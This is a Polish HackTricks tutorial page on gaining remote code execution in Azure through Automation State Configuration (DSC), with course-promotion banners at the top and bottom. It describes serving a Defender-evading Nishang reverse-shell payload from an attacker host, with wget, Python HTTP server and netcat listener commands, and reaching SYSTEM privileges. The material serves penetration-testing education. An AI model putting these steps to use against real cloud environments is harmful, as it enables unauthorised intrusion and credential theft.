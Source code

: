 # Az - Konfiguracja stanu RCE

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

**Sprawdź pełny post na: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Podsumowanie przygotowania infrastruktury zdalnego serwera (C2) i kroki

#### Przegląd
Proces obejmuje konfigurację infrastruktury zdalnego serwera do hostowania zmodyfikowanego ładunku Nishang `Invoke-PowerShellTcp.ps1`, o nazwie `RevPS.ps1`, zaprojektowanego do ominięcia Windows Defender. Ładunek jest serwowany z maszyny Kali Linux o adresie IP `40.84.7.74` za pomocą prostego serwera HTTP w Pythonie. Operacja jest wykonywana poprzez kilka kroków:

#### Krok 1 — Utwórz pliki
- **Wymagane pliki:** Potrzebne są dwa skrypty PowerShell:
1. `reverse_shell_config.ps1`: Plik konfiguracji stanu pożądanego (DSC), który pobiera i wykonuje ładunek. Dostępny jest na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skrypt do opublikowania konfiguracji na VM, dostępny na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Dostosowanie:** Zmienne i parametry w tych plikach muszą być dostosowane do konkretnego środowiska użytkownika, w tym nazwy zasobów, ścieżki plików oraz identyfikatory serwera/ładunku.

#### Krok 2 — Skompresuj plik konfiguracyjny
- Plik `reverse_shell_config.ps1` jest kompresowany do pliku `.zip`, aby był gotowy do przesłania do Konta Azure Storage.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Krok 3 — Ustaw kontekst przechowywania i przesłać
- Skompresowany plik konfiguracyjny jest przesłany do predefiniowanego kontenera Azure Storage, azure-pentest, za pomocą polecenia Set-AzStorageBlobContent platformy Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Krok 4 — Przygotowanie Kali Box
- Serwer Kali pobiera ładunek RevPS.ps1 z repozytorium na GitHubie.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skrypt jest edytowany, aby określić docelową maszynę wirtualną z systemem Windows i port dla odwróconego powłoki.

#### Krok 5 — Opublikuj plik konfiguracyjny
- Plik konfiguracyjny jest uruchamiany, co powoduje wdrożenie skryptu odwróconej powłoki w określonej lokalizacji na maszynie wirtualnej z systemem Windows.

#### Krok 6 — Hostuj ładunek i skonfiguruj nasłuchiwanie
- Uruchamiany jest Python SimpleHTTPServer, aby hostować ładunek, wraz z nasłuchiwaczem Netcat do przechwytywania przychodzących połączeń.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zaplanowane zadanie wykonuje ładunek, osiągając uprawnienia na poziomie SYSTEMU.

#### Wniosek

Pomyślne wykonanie tego procesu otwiera liczne możliwości dalszych działań, takich jak wykradanie poświadczeń lub rozszerzenie ataku na wiele maszyn wirtualnych. Przewodnik zachęca do ciągłego uczenia się i kreatywności w dziedzinie Azure Automation DSC.

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
